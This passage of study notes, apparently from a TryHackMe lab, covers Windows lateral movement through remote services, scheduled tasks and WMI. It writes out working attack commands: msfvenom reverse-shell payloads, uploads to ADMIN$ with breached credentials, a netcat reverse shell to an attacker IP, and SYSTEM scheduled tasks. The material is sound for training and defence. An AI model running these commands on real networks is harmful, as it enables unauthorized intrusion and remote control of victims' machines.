 		- Windows services can also be leveraged to run arbitrary commands since they execute a command when started.
		- Create a service on a remote host with sc.exe, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways
			- A connection attempt will be made using DCE/RPC.
				- The client will first connect to the Endpoint Mapper (EPM) at port 135 which serves as a catalog of available RPC endpoints and request information on the SVCCTL service program.
				- The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
			- If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).
		- We can create and start a service named `THMservice` using
			- `sc.exe \\TARGET create THMservice binPath= "net user <new-user> <password> /add" start= auto`
			- `sc.exe \\TARGET start THMservice`
		- To stop and delete the service, we execute
			- `sc.exe \\TARGET stop THMservice`
			- `sc.exe \\TARGET delete THMservice`
		- Instead of creating a user we can use a reverse shell and bind it to the service.
			- Create the shell using `msfvenom -p windows/shell/reverse_tcp -f exe-service lhost=<attacker-ip> lport=4444 -o myservice.exe`.
			- Use the breached credentials to upload the payload to the ADMIN$ share using `smbclient` with `smbclient -c 'put myservice.exe' -U <breached-username> -W ZA '//thmiis.za.tryhackme.com/admin$/' <breached-pass>`.
			- Set up a listener on the attacking machine using
				- `msfconsole`
				- `use exploit/multi/handler`
				- `set lhost lateralmovement`
				- `set lport 4444`
				- `set payload windows/shell/reverse_tcp`
				- `exploit`
			- This one liner does the same thing `msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set lhost lateralmovement; set lport 4444;exploit"`.
			- Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with breached user's access token.
			- Still we only have SSH access to the machine, so if we tried `runas /netonly /user:<breached-user> cmd.exe` the new command prompt would spawn on the user's session not ours.
			- To overcome this, we use `runas` to spawn a second reverse shell with the breached user access token `runas /netonly /user:<breached-user> "c:\tools\nc64.exe -e cmd.exe <attacker-ip> 4443"`.
			- Receive the reverse shell connection using `nc -lvp 4443`.
			- and finally proceed to create a new service remotely using `sc.exe`, associating it with the uploaded binary (payload)
				- `sc.exe \\thmiis.za.tryhackme.com create THMservice-<randnum> binPath= "%windir$\myservice.exe" start= auto`
				- `sc.exe \\thmiis.za.tryhackme.com start THMservice-<randnum>`
			- 
	- #### *Creating Scheduled Tasks Remotely*
		- Create and run scheduled tasks with `schtasks`, to create a task named `THMtask1`, use
			- `schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload> /sc ONCE /sd 01/01/1970 /st 00:00`
			- `schtasks /s TARGET /run /TN "THMtask1"`
		- `/sc ONCE` to run the task once at specified date and time `/sd` and `/st`.
		- Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.
		- Delete the task using `schtasks /S TARGET /TN "THMtask1" /DELETE /F`.
- ## *Moving Laterally Using WMI*
	- Windows Management Instrumentation is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.
	- WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.
	- #### *Connecting to WMI From PowerShell*
		- Before connecting, we need to create a PSCredential object with our user and password.
			- `$username = 'Administartor';`
			- `$password = 'Mypass123';`
			- `$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`